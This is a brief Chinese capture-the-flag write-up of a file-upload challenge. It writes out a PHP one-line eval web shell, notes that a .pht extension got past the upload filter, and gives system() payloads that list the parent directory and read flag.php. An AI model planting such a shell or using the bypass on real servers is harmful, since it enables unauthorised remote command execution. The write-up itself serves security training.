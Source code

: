 ![image-20250403180132601](./assets/image-20250403180132601.png)



php一句话木马

```
<?php @eval($_POST[ra1n3]);?>
```

上传

![image-20250403180227868](./assets/image-20250403180227868.png)



尝试修改后缀名为php3，php5都不行

pht可以

```
ra1n3=system("ls ../");
```

![image-20250403180838051](./assets/image-20250403180838051.png)

上一级目录中发现flag



```
ra1n3=system("tac ../flag.php");
```

![image-20250403180901490](./assets/image-20250403180901490.png)